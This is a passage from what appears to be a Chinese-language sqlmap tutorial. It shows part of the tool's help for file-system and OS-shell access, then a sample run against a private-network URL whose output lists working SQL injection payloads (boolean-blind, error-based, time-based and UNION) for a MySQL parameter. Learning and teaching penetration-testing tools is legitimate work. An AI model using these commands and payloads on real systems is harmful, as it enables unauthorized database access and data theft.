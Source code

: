 	    --udf-inject        Inject custom user-defined functions
	    --shared-lib=SHLIB  Local path of the shared library
	
	  File system access:
	    These options can be used to access the back-end database management
	    system underlying file system
	
	    --file-read=FILE..  Read a file from the back-end DBMS file system
	    --file-write=FIL..  Write a local file on the back-end DBMS file system
	    --file-dest=FILE..  Back-end DBMS absolute filepath to write to
	
	  Operating system access:
	    These options can be used to access the back-end database management
	    system underlying operating system
	
	    --os-cmd=OSCMD      Execute an operating system command
	    --os-shell          Prompt for an interactive operating system shell
	    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC
	    --os-smbrelay       One click prompt for an OOB shell, Meterpreter or 
	    xxx
	    ...
	    ...
	    ...
    
### 2.2 指到注入目标 -u 

	-u URL, --url=URL 
	
-u 后接url，查看是否有可注入点，例如：

	python sqlmap.py -u http://172.20.201.203:9000/apis/dashboard/typetopcount\?method\=POST\&topCount\=3

	[11:26:38] [WARNING] GET parameter 'topCount' does not seem to be injectable
	sqlmap identified the following injection point(s) with a total of 3138 HTTP(s) requests:
	---
	Parameter: method (GET)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause
	    Payload: method=POST' AND 5176=5176 AND 'EvFC'='EvFC&topCount=3
	
	    Type: error-based
	    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
	    Payload: method=POST' AND (SELECT 2244 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(2244=2244,1))),0x7170717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'CWNF'='CWNF&topCount=3
	
	    Type: time-based blind
	    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	    Payload: method=POST' AND (SELECT 8526 FROM (SELECT(SLEEP(5)))yhHi) AND 'Djtf'='Djtf&topCount=3
	
	    Type: UNION query
	    Title: Generic UNION query (NULL) - 2 columns
	    Payload: method=POST' UNION ALL SELECT CONCAT(0x716a7a6b71,0x685773786e4b6578754b534c4a79487979684b46586a77546d6a69656677786e7748474a4a746177,0x7170717871),NULL-- rehY&topCount=3
	---
	[11:26:38] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0
	[11:26:38] [INFO] fetched data logged to text files under '/Users/didi/.sqlmap/output/172.20.201.203'
	
